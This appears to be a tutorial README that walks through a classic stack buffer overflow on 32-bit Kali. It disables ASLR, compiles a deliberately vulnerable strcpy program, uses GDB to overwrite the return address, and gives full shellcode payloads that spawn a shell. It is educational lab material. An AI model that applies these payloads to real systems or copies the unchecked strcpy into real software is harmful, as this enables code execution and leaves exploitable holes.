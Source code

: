 
# Buffer Overflow Tutorial

This tutorial is based on the Computerphile video, made by Dr. Mike Pound

https://www.youtube.com/watch?v=1S0aBV-Waeo

The tutorial will show you how to trigger and exploit a buffer overflow attack against a custom C program, using Kali Linux 32-bit PAE 2016.1.

Link:
https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/




## disable memory randomization, enable core dumps
http://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/
```shell
cat /proc/sys/kernel/randomize_va_space
sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
sudo sysctl -p
cat /proc/sys/kernel/randomize_va_space
# verify "0"
ulimit -c unlimited
ulimit -c
# verify "unlimited"
```


## scripts

http://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

[envexec.sh]
```shell
#!/bin/sh

while getopts "dte:h?" opt ; do
  case "$opt" in
    h|\?)
      printf "usage: %s -e KEY=VALUE prog [args...]\n" $(basename $0)
      exit 0
      ;;
    t)
      tty=1
      gdb=1
      ;;
    d)
      gdb=1
      ;;
    e)
      env=$OPTARG
      ;;
  esac
done

shift $(expr $OPTIND - 1)
prog=$(readlink -f $1)
shift
if [ -n "$gdb" ] ; then
  if [ -n "$tty" ]; then
    touch /tmp/gdb-debug-pty
    exec env - $env TERM=screen PWD=$PWD gdb -tty /tmp/gdb-debug-pty --args $prog "$@"
  else
    exec env - $env TERM=screen PWD=$PWD gdb --args $prog "$@"
  fi
else
  exec env - $env TERM=screen PWD=$PWD $prog "$@"
fi
```





[vuln.c]
```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv)
{
	char buffer[500];
	strcpy(buffer, argv[1]);

	return 0;
}
```

## Commands

```shell
# compile the code
gcc -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g vuln.c -o vuln

# clean the environment, debug
chmod +x envexec.sh
./envexec.sh -d vuln

# clean the environment, execute exploit
./envexec.sh /root/vuln $(python ...)

# run gdb, load a program to analyze
gdb vuln
```

## GDB commands

```shell
# quit the debugger
quit

# clear the screen
ctrl + l
shell clear

# show debugging symbols, ie. code
list
list main

# show the assemlby code
disas main

# examine information
info os

info functions

info variables

# run the program, with input
run Hello

# run the overflow, seg fault
run $(python -c 'print "\x41" * 508')

# examine memory address
x/200x ($esp - 550)

# confirm overwrite of ebp register
info registers

# find a location, below ESP (stack pointer)
EDI = destination index, string / array copying
ESI = source index, string + array copying

EIP = index pointer, next address to execute
EBP = stack base pointer
ESP = stack pointer, starting in high memory, going down
EDX = data register

# run the overflow, launch a zsh shell
run $(python -c 'print "\x90" * 426 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\x51\x51\x51\x51" * 10')

# examine memory address
x/200x ($esp - 550)

# convert memeory address to little endian
ecx            0xbfffffc0	-1073741888
edx            0xbffffc3a	-1073742790
ebx            0xb7fb8000	-1208254464
esp            0xbffffc40	0xbffffc40
ebp            0x51515151	0x51515151

0xbf ff fa ba
\xba\xfa\xff\xbf


# run the exploit, execut /bin/zsh5
run $(python -c 'print "\x90" * 425 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\xba\xfa\xff\xbf" * 10')
```



***Stack pointer***

-----------------------------------------------------------------------------------------------------------------------

```c
#include <stdio.h>
#include <stdlib.h>

unsigned long *get_stack_ptr(void) {
  __asm__(
    "mov %rsp, %rax"
  );
}

int main(int argc, char **argv) {
  unsigned long *stack_ptr = get_stack_ptr();

  printf("Size Of Ptr: %d bytes\n", sizeof(unsigned long *));
  printf("Stack Pointer: %llX\n", stack_ptr);

  return 0;
}
```
